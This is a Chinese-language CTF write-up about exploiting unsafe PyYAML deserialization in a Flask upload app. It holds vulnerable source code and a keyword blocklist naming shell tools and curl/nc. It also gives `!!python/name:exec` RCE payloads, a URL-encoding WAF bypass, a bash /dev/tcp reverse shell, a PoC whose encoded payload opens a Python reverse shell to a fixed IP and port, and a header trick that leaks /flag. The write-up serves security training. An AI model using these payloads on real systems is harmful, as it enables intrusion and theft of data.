


# Yaml反序列化name标签打响应头回显-先知社区

> **来源**: https://xz.aliyun.com/news/16454  
> **文章ID**: 16454

---

## Yaml反序列化name标签打响应头回显

Yaml\_master源码如下

```
import os
import re
import yaml
from flask import Flask, request, jsonify, render_template


app = Flask(__name__, template_folder='templates')

UPLOAD_FOLDER = 'uploads'
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
def waf(input_str):


    blacklist_terms = {'apply', 'subprocess','os','map', 'system', 'popen', 'eval', 'sleep', 'setstate',
                       'command','static','templates','session','&','globals','builtins'
                       'run', 'ntimeit', 'bash', 'zsh', 'sh', 'curl', 'nc', 'env', 'before_request', 'after_request',
                       'error_handler', 'add_url_rule','teardown_request','teardown_appcontext','\\u','\\x','+','base64','join'}

    input_str_lower = str(input_str).lower()


    for term in blacklist_terms:
        if term in input_str_lower:
            print(f"Found blacklisted term: {term}")
            return True
    return False


file_pattern = re.compile(r'.*\.yaml$')


def is_yaml_file(filename):
    return bool(file_pattern.match(filename))

@app.route('/')
def index():
    return '''
    Welcome to DASCTF X 0psu3
    <br>
    Here is the challenge <a href="/upload">Upload file</a>
    <br>
    Enjoy it <a href="/Yam1">Yam1</a>
    '''

@app.route('/upload', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        try:
            uploaded_file = request.files['file']

            if uploaded_file and is_yaml_file(uploaded_file.filename):
                file_path = os.path.join(UPLOAD_FOLDER, uploaded_file.filename)
                uploaded_file.save(file_path)

                return jsonify({"message": "uploaded successfully"}), 200
            else:
                return jsonify({"error": "Just YAML file"}), 400

        except Exception as e:
            return jsonify({"error": str(e)}), 500


    return render_template('upload.html')

@app.route('/Yam1', methods=['GET', 'POST'])
def Yam1():
    filename = request.args.get('filename','')
    if filename:
        with open(f'uploads/{filename}.yaml', 'rb') as f:
            file_content = f.read()
        if not waf(file_content):
            test = yaml.load(file_content)
            print(test)
    return 'welcome'


if __name__ == '__main__':
    app.run()

```

审计代码，有yaml文件上传入口，还有一个yaml读取反序列化入口  
我们可以利用Yaml反序列化命令执行来打,**高版本之后的yaml可以用name标签来利用反序列化rce**.

**创建一个类型为z的新对象,而对象中extend属性在创建时会被调用,参数为listitems内的参数**

```
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('whoami')"

```

由于禁用了eval以及很多模块，我们发现exec命令执行函数可以用

但是反弹shell的话需要编码，waf没有过滤url编码，我们可以url编码绕过  
url编码exec的命令

```
__import__('os').system("bash -c  'bash -i >& /dev/tcp/ip/port 0>&1'")
```

poc如下

```
import requests

# 目标 URL
url = 'http://node5.buuoj.cn:28322/'


content="""!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"extend": !!python/name:exec }
listitems: "import urllib; exec(urllib.parse.unquote('%5f%5f%69%6d%70%6f%72%74%5f%5f%28%27%6f%73%27%29%2e%73%79%73%74%65%6d%28%27%70%79%74%68%6f%6e%33%20%2d%63%20%5c%27%69%6d%70%6f%72%74%20%6f%73%2c%70%74%79%2c%73%6f%63%6b%65%74%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%32%34%2e%32%32%30%2e%33%37%2e%31%37%33%22%2c%32%33%33%33%29%29%3b%5b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%66%29%66%6f%72%20%66%20%69%6e%28%30%2c%31%2c%32%29%5d%3b%70%74%79%2e%73%70%61%77%6e%28%22%73%68%22%29%5c%27%27%29'))"
 """


files = {'file': ('1.yaml', content, 'application/octet-stream')}


# 发送 POST 请求
response = requests.post(url+'upload',  files=files)

# 打印响应内容
print(response.status_code)
print(response.text)


res = requests.get(url=url+'Yam1?filename=1')
print(res.headers)

```



#### 不出网响应头回显

这题是没有回显的 通过Server请求头带出命令回显 , 但是常规的装饰器函数都被ban了

```
blacklist_terms = {'apply', 'subprocess','os','map', 'system', 'popen', 'eval', 'sleep', 'setstate',
'command','static','templates','session','&','globals','builtins'
'run', 'ntimeit', 'bash', 'zsh', 'sh', 'curl', 'nc', 'env', 'before_request', 'after_request',
'error_handler', 'add_url_rule','teardown_request','teardown_appcontext','\\u','\\x','+','base64','join'}

```

我们得想办法带出数据 ，可以通过Server请求头带出命令回显  
werkzeug.serving.WSGIRequestHandler这个处理器是用来处理请求头的  
Server头的值是server\_version属性和sys\_version属性拼接在一起的  
那我们只需要想办法修改server\_version属性或者sys\_version属性即可带出数据了

```
import werkzeug

setattr(werkzeug.serving.WSGIRequestHandler, "server_version",'想要带出的数据' )

```

构造完整yaml文件

```
!!python/object/new:type
args:
- exp
- !!python/tuple []
- {"extend": !!python/name:exec }
listitems: |
bb=open("/flag").read()
import werkzeug
setattr(werkzeug.serving.WSGIRequestHandler, "server_version",bb )

```

构造脚本poc

```
import requests

# 目标 URL
url = 'http://node5.buuoj.cn:28322/'


content="""!!python/object/new:type
    args:
     - exp
     - !!python/tuple []
     - {"extend": !!python/name:exec }
    listitems: |
     bb=open("/flag").read()
     import werkzeug
     setattr(werkzeug.serving.WSGIRequestHandler, "server_version",bb )
 """

files = {'file': ('1.yaml', content, 'application/octet-stream')}

# 发送 POST 请求
response = requests.post(url+'upload',  files=files)

# 打印响应内容
print(response.status_code)
print(response.text)


res = requests.get(url=url+'Yam1?filename=1')
print(res.headers)

```

成功在响应的flask版本字段打印出flag文件内容


